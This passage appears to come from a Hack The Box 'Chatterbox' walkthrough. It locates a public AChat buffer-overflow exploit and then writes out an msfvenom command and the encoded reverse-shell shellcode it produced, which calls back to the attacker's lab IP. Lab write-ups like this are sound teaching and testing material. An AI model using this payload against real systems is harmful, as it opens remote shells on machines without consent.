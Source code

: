 After trying to enumerate the SMB ports with no luck, lets move on to http on ports 9255/9256, which appears to be hosting AChat chat system. 

Doing a quick SearchSploit search, we find some potentially interesting buffer overflow attacks against the service.

![searchsploit.png](../assets/chatterbox_assets/searchsploit.png)

Ok cool, looks like there is a public exploit in Python as well as a Metasploit module here. Looking at the Python exploit at https://www.exploit-db.com/exploits/36025 we see a buffer overflow attack, with the shellcode presently set to open up calc.exe as a proof of concept.

### Exploitation

Lets generate our own shellcode using msfvenom, and see if we can get a working reverse shell from this exploit.

```text
┌──(ryan㉿kali)-[~/HTB/Chatterbox]
└─$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3822 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x39\x6c\x5a\x48\x54\x42\x69\x70"
buf += b"\x49\x70\x6b\x50\x43\x30\x55\x39\x4b\x35\x6c\x71"
buf += b"\x37\x50\x30\x64\x72\x6b\x62\x30\x6e\x50\x74\x4b"
buf += b"\x50\x52\x6a\x6c\x32\x6b\x4e\x72\x4b\x64\x72\x6b"
buf += b"\x51\x62\x6f\x38\x5a\x6f\x58\x37\x4f\x5a\x6f\x36"
buf += b"\x6c\x71\x6b\x4f\x74\x6c\x6d\x6c\x43\x31\x53\x4c"
buf += b"\x7a\x62\x4c\x6c\x6f\x30\x75\x71\x46\x6f\x7a\x6d"
buf += b"\x7a\x61\x48\x47\x69\x52\x78\x72\x4f\x62\x42\x37"
buf += b"\x34\x4b\x51\x42\x5a\x70\x32\x6b\x6d\x7a\x4d\x6c"
buf += b"\x52\x6b\x30\x4c\x4e\x31\x32\x58\x67\x73\x6d\x78"
buf += b"\x6a\x61\x66\x71\x4f\x61\x62\x6b\x30\x59\x4d\x50"
buf += b"\x79\x71\x48\x53\x74\x4b\x61\x39\x4b\x68\x67\x73"
buf += b"\x4d\x6a\x4d\x79\x54\x4b\x6f\x44\x42\x6b\x49\x71"
buf += b"\x58\x56\x6d\x61\x39\x6f\x76\x4c\x56\x61\x78\x4f"
buf += b"\x6a\x6d\x69\x71\x76\x67\x6e\x58\x67\x70\x30\x75"
buf += b"\x6a\x56\x69\x73\x33\x4d\x69\x68\x4f\x4b\x33\x4d"
buf += b"\x6d\x54\x71\x65\x37\x74\x72\x38\x44\x4b\x4f\x68"
```